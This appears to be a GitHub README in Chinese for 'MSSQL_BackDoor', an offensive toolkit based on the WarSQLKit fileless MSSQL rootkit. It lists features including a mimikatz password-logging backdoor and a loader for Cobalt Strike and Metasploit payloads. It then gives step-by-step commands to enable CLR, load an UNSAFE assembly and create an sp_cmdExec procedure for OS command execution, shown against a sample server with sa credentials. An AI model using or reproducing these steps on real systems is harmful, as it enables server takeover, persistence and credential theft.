







## MSSQL_BackDoor 

目的主要是摆脱MSSMS和 Navicat 调用执行 sp_cmdExec


在原有项目( [https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit](https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit) )做了更新

- 使用脚本查询可以获取返回值, 之前只能获取消息, 所以很依赖工具执行 sp_cmdExec
- 更新 mimikatz_powershell 至2020版本
- 添加自定义 loader, 用于加载 cobaltstrike 和 metasploit 的 payload
- 添加 mimikatz_ssp 后门, 用于记录服务器的密码
- sp_help, 一些提示指令

基于狼师傅的工具([http://wolvez.club/2019/09/19/mssql-command-tool/](http://wolvez.club/2019/09/19/mssql-command-tool/))稍微改了下程序

1. OpenCLR

```
./mssqlrootkit -s 3.3.3.155 -u sa -p Admin1314 -q "sp_configure 'clr enabled', 1;RECONFIGURE;ALTER DATABASE master SET TRUSTWORTHY ON;"
```


2. Load_ASSEMBLY

```
CREATE ASSEMBLY [WarSQLKit] AUTHORIZATION [dbo] FROM 0x4D5A9... WITH PERMISSION_SET = UNSAFE;
```


3. Create_StoredProcedure

```
./mssqlrootkit -s 3.3.3.155 -u sa -p Admin1314 -q 'CREATE PROCEDURE [dbo].[sp_cmdExec] @cmd NVARCHAR (MAX), @result NVARCHAR (MAX) OUTPUT AS EXTERNAL NAME [WarSQLKit].[StoredProcedures].[CmdExec];'
```

4. 🤣🤣🤣🤣🤣🤣







瞎改了个 c# loader, 各位师傅将就用






部分利用思路:

例如: uknowsec师傅的-Frpc命令行版 [https://github.com/uknowsec/frpModify](https://github.com/uknowsec/frpModify)



